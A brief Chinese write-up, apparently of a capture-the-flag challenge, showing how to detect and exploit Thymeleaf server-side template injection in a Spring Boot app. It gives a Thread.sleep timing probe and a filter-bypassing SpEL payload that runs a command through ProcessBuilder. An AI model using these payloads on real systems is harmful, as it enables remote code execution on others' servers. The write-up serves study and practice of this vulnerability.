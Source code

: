 进`/first`可以看到需要选择语言，选中后路由会加上`/en`或者`/cn`

因为springboot大部分用的模版引擎为`thymeleaf`，而`thymeleaf`存在ssti，直接测试就可以知道题目是否存在ssti


```
http://ip/__${T(Thread).sleep(5000)}__::
```

可以发现确实延时了5秒，存在漏洞

绕过一些简单的过滤（`new`,`Runtime`）我们可以执行命令

比如用SPEL关键字大小写不区分的特性来绕过`new`

```
http://ip/__${New java.lang.ProcessBuilder({'open','-a','Calculator.app'}).start()}__::.x
```

复杂的命令可以去`base64`编码一下

